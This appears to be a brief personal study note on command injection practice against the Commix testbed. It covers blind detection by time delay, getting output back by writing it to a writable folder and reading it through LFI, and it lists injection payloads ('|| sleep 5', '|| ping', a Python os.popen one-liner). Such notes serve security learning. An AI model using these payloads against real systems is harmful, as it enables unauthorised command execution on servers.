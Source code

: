 


Practice web - Commix Testbed

# Returning output

![[Pasted image 20221123171906.png]]


# Not returning output / blind

- try to find vulnerable parameters by injecting a type of command that wait the system
- to see the output of injection, redirect it to the writable folders and the web app also should have an LFI or path traversal to execute the redirected file created on the server.


payloads
```python
|| sleep 5
|| ping -c 5 localhost/127.1/127.x.x.x

```



# Allows arbitrary programming language code execution
```python
PYTHON
import os; print(os.popen('command_here').read())

```

#






